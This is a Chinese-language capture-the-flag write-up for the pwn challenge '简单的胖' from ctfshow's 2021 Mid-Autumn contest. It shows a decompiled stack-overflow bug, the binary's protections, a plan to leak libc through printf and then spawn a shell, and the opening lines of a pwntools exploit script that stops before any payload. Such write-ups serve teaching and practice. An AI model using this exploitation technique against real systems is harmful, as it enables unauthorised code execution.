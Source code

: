 ﻿---
title: ctfshow-月饼杯2021-pwn-wp
categories: [CTF]
tags: [wp,pwn]

---
久违参加了ctfshow的比赛，题都比较简单，就是远程环境libc我泄露半天才泄露出来... (⊙﹏⊙) 

## 简单的胖

题目简单就一个简单amd64位的栈溢出.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[28]; // [rsp+0h] [rbp-20h]
  int v6; // [rsp+1Ch] [rbp-4h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("What's your name? ", 0LL);
  v3 = read(0, buf, 0x100uLL);
  v6 = v3;
  buf[v3 - 1] = 0;
  printf("Welcome to the CTFshow Moon cake cup! %s!\n", buf);
  return 0;
}
```

看下保护只开了NX.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

先一波正常栈溢出,通过`printf`函数泄露出libc的真实地址和libc版本.

(但这里远程环境libc 版本,我之前泄露libc死活泄露不出来,看了第二题的libc才猜测两题环境可能一样,tcl)

然后再通过一波栈溢出getshell.

```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

'''
@File    :   exp.py
@Time    :   2021/09/20 15:40:41
@Author  :   lexsd6
'''

from pwn import * 
from libcfind import *

local_mote=0
elf='./moonpwn01'
e=ELF(elf)
context.log_level = 'debug'
context.arch=e.arch
ip_port=['pwn.challenge.ctf.show',28075]
#GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
debug=lambda : gdb.attach(p) if local_mote==1 else None

```